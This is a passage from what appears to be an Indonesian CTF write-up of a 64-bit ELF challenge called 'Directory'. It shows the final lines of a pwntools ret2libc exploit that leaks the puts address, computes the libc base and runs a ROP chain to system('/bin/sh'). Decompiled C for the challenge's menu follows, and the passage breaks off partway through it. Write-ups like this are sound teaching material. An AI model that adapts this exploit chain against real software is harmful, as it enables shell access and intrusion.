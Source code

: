 ```python
attack(rop.chain())
rl()
leaked_puts = u64(lj(rud(b'\n'), 8, b'\0'))
li(f"Leaked puts: {hex(leaked_puts)}")
libc.address = leaked_puts - libc.sym.puts
rop = ROP(libc)
rop.call(rop.ret.address)
rop.system(next(libc.search(b'/bin/sh\0')))
li(f"rop chain: {rop.dump()}")
attack(rop.chain())
com()
```
![chall-sc](https://hackmd.io/_uploads/B1LF84DmA.png)

## Directory
![chall-sc](https://github.com/jonscafe/jonscafe.github.io/assets/118645827/dce01d71-16b1-4a98-9cb4-b26d8cd4ed88)

Diberikan sebuah zip yang berisi Executable and Linkable Format (ELF) 64-bit beserta Docker Setup untuk mendeploy challengenya di server. Langsung saja kita decompile ELFnya.
### main
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  process_menu(argc, argv, envp);
  return 0;
}
```
### process_menu
```c
__int64 process_menu()
{
  __int64 result; // rax
  int v1; // [rsp+0h] [rbp-1E0h]
  char v2[256]; // [rsp+4h] [rbp-1DCh] BYREF
  unsigned int v3; // [rsp+104h] [rbp-DCh] BYREF
  int v4[52]; // [rsp+108h] [rbp-D8h] BYREF
  unsigned int i; // [rsp+1D8h] [rbp-8h]
  int j; // [rsp+1DCh] [rbp-4h]

  v1 = 0;
  while ( 1 )
  {
    result = v3;
    if ( v3 == 4 )
      return result;
    print_menu();
    printf("> ");
    __isoc99_scanf("%d", &v3);
    if ( v3 == 4 )
    {
      puts("Exiting...");
    }
    else
    {
      if ( (int)v3 > 4 )
        goto LABEL_23;
      switch ( v3 )
      {
        case 3u:
          puts("Printing directory...");
          for ( i = 0; (int)i < v1; ++i )
```